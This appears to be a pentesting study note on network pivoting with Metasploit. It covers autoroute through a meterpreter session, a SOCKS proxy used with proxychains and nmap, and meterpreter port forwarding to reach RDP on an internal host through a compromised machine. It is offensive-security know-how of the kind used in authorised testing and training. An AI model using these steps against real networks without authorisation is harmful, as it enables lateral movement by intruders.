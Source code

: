 > This section is a collection of pivoting techniques. Mainly commands with the metasploit framework

Through pivoting it is possible to scan/enumerate/exploit targets in a new subnet or behind a firewall/DMZ from a bastion host (host acts as some kind of proxy).

## Enable pivoting through an established meterpreter session

### 0. Prerequisites

- established meterpreter session on a host
- Victim host must have connection to other NW or machine

### 1. Create a route into another network

```bash
msf> use post/multi/manage/autoroute
msf> set SESSION 1  # session on bastion host
msf> set SUBNET 10.10.10.0  # target network
msf> set NETMASK /16  # if different from /24
msf> run
```

Routes can be display with the `route` command in the console.

Also they can be added 'manually':

```bash
msf> route add <networkIP> <subnetMask> <sessionNumber>
msf> route add <networkIP>/24 <sessionsNumber>
```

### 2. Using the Pivot within metasploit frameowrk

This should be working already. If traffic is to go to the network covered by the defined route, metasploit will handly it automatically.

### 3. Start the `SOCKS` proxy for outside tools to pivot

```bash
msf> use auxiliary/server/socks_proxy
msf> set VERSION 4a  # optionally version 5 works also
msf> run
```

Socks proxy is started as a job in metasploit and runs in the background (check via `jobs` command).

- Also check if local config for proxychains matches the `PORT` and `VERSION` parameter stated within metasploit.

```bash
sudo nano /etc/proxychains4.conf  # or similar config name
> version 4a  # if using version 4
> port 1080
```

With this config and metasploit running the socks server, we can use `proxychains` in order to use other tools over this tunnel.

### 4. Use `proxychains` with `nmap`

> Remember: `SOCKS` is a service on the upper layers of the OSI model - `ICMP` and other low-level functions will not work with proxychains!

```bash
# scan ftp port with nmap
sudo proxychains nmap -Pn -sTV -n -p21 <targetIP>
```

## Portforwarding

> Using metaslpoit

```bash
meterpreter> portfwd add -l <localPort> -r <targetIP> -p <targetPort>
meterpreter> portfwd add -l 3333 -r 10.0.0.15 -p 3389
```

Example above: `RDP` connect to local port 3333 will actually goto 10.0.0.15:3389

![[m6_portforward.png]]

Listener on attacker machine forwarding traffic to the target over the compromised host. Requires an already exploited victim to use as intermediary.

